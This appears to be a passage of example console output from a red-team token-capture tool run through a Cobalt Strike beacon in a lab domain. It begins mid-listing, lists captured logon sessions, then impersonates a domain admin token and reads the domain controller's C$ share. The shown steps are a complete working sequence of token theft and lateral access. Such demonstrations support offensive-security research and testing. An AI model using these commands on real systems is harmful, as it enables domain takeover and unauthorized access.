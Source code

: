```
CredUserName : localadmin@THESHIRE.LOCAL
Origin LUID  : 1676720

Username     : THESHIRE\da (S-1-5-21-937929760-3187473010-80948926-1145)
LUID         : 67568439
CaptureTime  : 6/21/2022 1:24:50 PM
LogonType    : Interactive
AuthPackage  : Negotiate
CredUserName : da@THESHIRE.LOCAL
Origin LUID  : 1677765

Username     : THESHIRE\harmj0y (S-1-5-21-937929760-3187473010-80948926-1104)
LUID         : 1677733
CaptureTime  : 6/21/2022 1:23:10 PM
LogonType    : Interactive
AuthPackage  : Kerberos
CredUserName : harmj0y@THESHIRE.LOCAL
Origin LUID  : 999

beacon> koh groups 67568439
[+] host called home, sent: 6548 bytes
[+] received output:
[*] Using KohPipe                    : \\.\pipe\imposecost

[+] received output:
S-1-5-21-937929760-3187473010-80948926-513
S-1-5-21-937929760-3187473010-80948926-512
S-1-5-21-937929760-3187473010-80948926-525
S-1-5-21-937929760-3187473010-80948926-572

beacon> koh impersonate 67568439
[+] host called home, sent: 6548 bytes
[+] received output:
[*] Using KohPipe                    : \\.\pipe\imposecost

[+] received output:
[*] Enabled SeImpersonatePrivilege

[+] received output:
[*] Creating impersonation named pipe: \\.\pipe\imposingcost

[+] received output:
[*] Impersonation succeeded. Duplicating token.

[+] received output:
[*] Impersonated token successfully duplicated.

[+] Impersonated THESHIRE\da

beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 20 bytes
[*] You are THESHIRE\DA (admin)

beacon> shell dir \\dc.theshire.local\C$
[*] Tasked beacon to run: dir \\dc.theshire.local\C$
[+] host called home, sent: 69 bytes
[+] received output:
 Volume in drive \\dc.theshire.local\C$ has no label.
 Volume Serial Number is A4FF-7240

 Directory of \\dc.theshire.local\C$

```